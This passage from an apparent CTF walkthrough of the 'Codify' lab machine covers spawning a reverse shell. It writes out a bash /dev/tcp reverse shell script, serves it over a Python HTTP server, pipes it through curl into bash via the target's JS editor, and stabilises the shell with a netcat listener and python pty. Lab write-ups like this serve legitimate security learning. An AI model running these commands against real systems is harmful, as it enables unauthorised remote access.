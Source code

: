 This command shows that there's a user called `joshua` on this system. We can now try to escalate into his account from our `svc` account. However, before we do that, let's get a proper shell into the Codify box so that we don't have deal with putting commands in the JS editor manually.

### Spawn Reverse Shell into Codify

We can spawn a TCP reverse shell into the box by downloading the following shell script into Codify and executing it. Open a text editor and paste the following snippet and name the file as `shell.sh`

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.151//1337 0>&1'
```

Change the IP address to your own tun0 interface IP address. You can use the below command to retreive your attack box IP.

```bash
ip a | grep tun0
```

Now, fire up a HTTP server on your attack box so that you can deliver this shell script into the target box(Codify). You can use the following python one-liner.

```bash
python3 -m http.server 9000
```

You can now download the shell script from the target machine using curl. However, before we do that, let's create a netcat listener on another terminal so that we can interact with the shell.

```bash
nc -lvnp 1337
```

Finally, deliver the shell script by typing the following command in the Codify Editor box(inside `execSync('whoami');` )

```bash
curl http://10.10.14.151:9000/shell.sh|bash
```

It should spawn a TCP reverse shell in your `netcat` terminal. Since it's not very stable, let's run the following few commands to get a proper shell with nice color highlighting.

From inside the `netcat` terminal running the reverse shell -

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Hit enter and when it runx, press `Ctrl+Z`

```bash
^Z
```

Now run -
